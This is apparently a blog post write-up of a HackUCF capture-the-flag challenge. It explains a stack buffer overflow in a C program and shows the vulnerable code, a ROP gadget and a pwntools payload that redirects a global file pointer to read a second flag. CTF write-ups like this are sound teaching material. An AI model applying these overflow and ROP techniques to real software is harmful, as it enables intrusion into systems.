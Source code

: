 ```yaml
---
layout: post
title: " Buffer Overflow with Global Variable Control"
date: 2025-07-28
categories:
  - pwn
---
```

# Exploit Write-up: Buffer Overflow with Global Variable Control

[Challenge](https://ctf.hackucf.org/challenges#stack0%20pt2)

### Overview

In this challenge, we are given a C program that contains a **buffer overflow vulnerability** in the `func()` function. The goal is to exploit this vulnerability to print the contents of the correct flag file, `flag2.txt`, even though the binary is hardcoded to open `flag1.txt`.

---

### Source Code Summary

```c
static const char* flagfile = "flag1.txt";

static void giveFlag(void) {
    char flag[64];
    FILE* fp = fopen(flagfile, "r");
    if (!fp) {
        perror(flagfile);
        return;
    }
    fgets(flag, sizeof(flag), fp);
    fclose(fp);
    printf("Here is your first flag: %s\n", flag);
}
```

In `giveFlag()`, the program uses a **global variable `flagfile`** to open the flag file. Our goal is to make it open `flag2.txt` instead.

---

### Vulnerability

In `func()`:

```c
void func(void) {
    bool didPurchase = false;
    char input[50];

    printf("Debug info: Address of input buffer = %p\n", input);
    read(STDIN_FILENO, input, 1024);

    if (didPurchase) {
        printf("Thank you for purchasing Hackersoft Powersploit!\n");
        giveFlag();
    } else {
        printf("This program has not been purchased.\n");
    }
}
```

- `input` is a 50-byte buffer.
- The program reads **1024 bytes** into it using `read()`, which causes a **stack-based buffer overflow**.
- `didPurchase` is right before `input` on the stack, so it can be overwritten.
- After that, the **return address can also be overwritten**.

---

### Exploitation Plan
1. **Overwrite `didPurchase`** to `true` so that `giveFlag()` is called.
2. **Overwrite the global variable `flagfile`** to point to `"flag2.txt"` instead of `"flag1.txt"`.
---
### Step-by-Step Exploitation
#### Step 1: Overwrite `didPurchase`
- Since `didPurchase` is right above `input`, the first byte of overflow can flip it to non-zero (`true`).
#### Step 2: Overwrite `flagfile`
- `flagfile` is a global pointer. So we can overwrite it with a pointer to `"flag2.txt"` stored in our buffer.
#### Step 3: Use ROP to overwrite `flagfile`

- Since we control the return address, we can craft a **ROP chain** to write the address of `"flag2.txt"` into the `flagfile` global variable.
- 
ROP gadget Used:

```
0x08049400 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
```

Payload:
```python
payload = flat(
	cyclic(63), # bytes to fill buffer up to EIP
	# write flag2.txt to writable memory
	read_, # read function address from giveflag function
	gadget, #  pop ebx ; pop esi ; pop edi ; pop ebp ; ret
	0, # stdin
	bss, # buf address where is will be store (writeable memory)
	11, # len
	0x0, # junk
	#overwrite the flagfile variable pointer
	read_, # read function address from giveflag function
	gadget, #  pop ebx ; pop esi ; pop edi ; pop ebp ; ret
	0, # stdin
	flagfile_addr_ptr, # hardcoded flagfile addr
	0x0,
	giveFlag, # giveflag function ptr
)
```

[Full Exploit Script](https://github.com/tibane0/ctf-pwn/blob/main/hackucf/stack0_pt2/xlp.py)

---

### Lessons Learned

- Global variables can be overwritten indirectly through buffer overflows.